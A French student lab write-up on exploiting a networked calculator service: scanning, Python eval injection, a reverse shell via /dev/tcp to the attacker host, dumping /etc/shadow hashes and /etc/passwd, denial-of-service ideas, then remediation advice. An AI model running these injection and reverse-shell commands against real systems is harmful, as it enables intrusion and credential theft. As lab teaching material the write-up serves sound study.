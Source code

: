 # TP5 SECU : Exploit, pwn, fix
## 1. Reconnaissance
**🌞 Déterminer :**
IP : 10.1.1.2
Port : 13337
Wireshark ou un décompileur
**🌞 Scanner le réseau :**
```
nanouche@Ubuntu:~$ sudo nmap -p 13337 --scanflags SYN -sS 10.33.64.0/20 -oN scan
```
Résultat dans le dossier [scan](./scan)
[tp5_nmap.pcapng](./capture/tp5_nmap.pcapng)
**🌞 Connectez-vous au serveur :**
```
nanouche@Ubuntu:~$ sudo python3 client.py 
Veuillez saisir une opération arithmétique : 1+1
'2'
```
L'application est une calculatrice
## 2. Exploit
**🌞 Injecter du code serveur :**
```
nanouche@Ubuntu:~$ nc 10.33.72.148 13337
__import__('os').popen("ls").read()
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
## 3. Reverse shell
**🌞 Obtenez un reverse shell sur le serveur :**
```
nanouche@Ubuntu:~$ nc 10.33.72.148 13337
__import__('os').popen("sh -i >& /dev/tcp/10.33.72.147/9999 0>&1").read()

nanouche@Ubuntu:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.33.72.148 49297
sh: cannot set terminal process group (11456): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```
**🌞 Pwn :**
```
sh-5.1# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:e4:0d:99 brd ff:ff:ff:ff:ff:ff
    inet 10.1.1.10/24 brd 10.1.1.255 scope global noprefixroute enp0s3
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fee4:d99/64 scope link 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:a0:7b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.0.3.15/24 brd 10.0.3.255 scope global dynamic noprefixroute enp0s8
       valid_lft 80092sec preferred_lft 80092sec
    inet6 fe80::a00:27ff:fea0:7b1f/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

sh-5.1# cat etc/shadow
cat etc/shadow
root:$6$zEk1UBcRHlrijLhs$/1dzLO/IL.CSZuDFqhGsfwqMWLqcEqANgi/zoptiNyztK3PKX4uX.TBRaoaZ120sTVCT7awPUUF3s62Hs2yfN.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19653::::::
dbus:!!:19653::::::
tss:!!:19653::::::
sssd:!!:19653::::::
sshd:!!:19653::::::
chrony:!!:19653::::::
systemd-oom:!*:19653::::::
hugo:$6$Y5.0u9zww/X1I33x$PZxU8Ghsb7UOgEpRgjWERYj/Un58bEOig3MYF90y5fo9H.X5sZ6qluhSKqxekAPkwMU6sxw3fn.Z1TZ2bVrdF/::0:99999:7:::
tcpdump:!!:19653::::::
netdata:!!:20014::::::

sh-5.1# cat etc/passwd
cat etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
netdata:x:991:991:NetData User:/var/log/netdata:/sbin/nologin

sh-5.1# cat home/hugo/client.py
cat home/hugo/client.py
#!/usr/bin/python3.9

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
s.send('Hello'.encode())

# On reçoit la string Hello
data = s.recv(1024)

# Récupération d'une string utilisateur
msg = input("Calcul à envoyer: ")

# On envoie
s.send(msg.encode())

# Réception et affichage du résultat
s_data = s.recv(1024)
print(s_data.decode())
s.close()

sh-5.1# cat home/hugo/portcheck.conf
cat home/hugo/portcheck.conf
jobs:
  - name: calculatrice
    host: 127.0.0.1
    ports:
      - 9999
```
## 4. Bonus : DOS
**⭐ BONUS : DOS l'application :**  
- Sur le firewall fermer le port 9999.
- Supprimer le dossier home/hugo ou est stocké le .py et le .conf / désinstaller Python de la machine.
- time sleep la machine à l'infini / juste shutdown.
# II. Remédiation
**🌞 Proposer une remédiation dév :**
- Valider et uniquement autoriser des entrées de int ou de +-*/.

**🌞 Proposer une remédiation système :**
- Limiter les permissions de l'application et définir un user avec les permissions les plus petites possibles pour juste faire sa tache et rien d'autre.
- Isoler l'application dans un conteneur Docker.
